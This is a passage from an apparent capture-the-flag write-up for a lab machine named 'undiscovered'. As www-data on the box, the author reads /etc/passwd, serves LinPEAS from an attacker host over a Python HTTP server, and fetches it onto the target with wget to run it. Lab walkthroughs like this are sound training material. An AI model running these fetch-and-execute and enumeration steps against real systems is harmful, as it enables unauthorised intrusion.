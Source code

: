 ![evidence](./static/11-webroot.png)

When I check the `/etc/passwd` file:
```shell
www-data@undiscovered:/var/www$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
william:x:3003:3003::/home/william:/bin/bash
leonard:x:1002:1002::/home/leonard:/bin/bash
```
Then I find the users `william` and `leonard`.

When I decide to use the `LinPEAS` script to enumerate the server, and I download it:
```shell
$ wget "https://github.com/carlospolop/PEASS-ng/
> releases/latest/download/linpeas.sh"
```
And I open an `HTTP` Python server:
```shell
$ python3 -m http.server 8000
```
And I download it to the target server:
```shell
www-data@undiscovered:/tmp$ wget 192.168.2.6:8000/linpeas.sh
```
And I give it execution permissions:
```shell
www-data@undiscovered:/tmp$ chmod +x linpeas.sh
```
And I execute it: